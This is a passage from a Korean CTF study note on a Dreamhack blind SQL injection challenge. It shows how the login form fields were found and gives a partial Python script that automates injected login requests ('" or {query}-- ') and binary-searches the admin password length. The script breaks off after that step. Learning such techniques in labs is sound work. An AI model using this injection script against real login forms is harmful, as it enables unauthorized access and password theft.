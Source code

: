 <br/>

#### Blind SQL Injection: 관리자 계정의 비밀번호를 알아내고 올바른 경로로 로그인 하는 방법
* 쿼리를 자동화하기 위해 로그인 요청의 폼 데이터 구조를 파악해야 함
	- 로그인할 때 전송하는 POST 데이터의 구조를 파악하기 위해서 guest 계정으로 로그인할 때 전송되는 요청의 Form Data를 크롬 개발자 도구의 Network 탭에서 확인함
		<img width="1296" alt="blindsqli_form data" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/e2099c48-3846-426c-ad04-607e78123bbc">
		+ 로그인할 때 입력한 userid 값은 ```userid```로, password는 ```userpassword```로 전송됨을 확인할 수 있음

* Blind SQL Injection 공격 자동화 스크립트(blind_sqli_exploit.py)
```python
#!/usr/bin/python3.9
import requests
import sys
from urllib.parse import urljoin

class Solver:
    """Solver for simple_SQLi challenge"""
    
    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host3.dreamhack.games:{port}" # port는 blind_sqli_exploit.py 코드 실행 시 입력함 (접속정보 확인)
        self._login_url = urljoin(self._chall_url, "login")
        
    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> requests.Response:
        login_data = {
            "userid": userid,
            "userpassword": userpassword
        }
        resp = requests.post(self._login_url, data=login_data)
        return resp
    
    
    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f"\" or {query}-- ", "hi")
        return resp
    
    
    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
        while 1:
            mid = (low+high) // 2
            if low+1 >= high:
                break
            query = query_tmpl.format(val=mid)
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        return mid
    
    
    # attack methods
    
    # 비밀번호의 길이 파악
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\") < {{val}})"
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len) # 이진 탐색 알고리즘을 활용하여 시간을 단축함
        return pw_len
    
    
```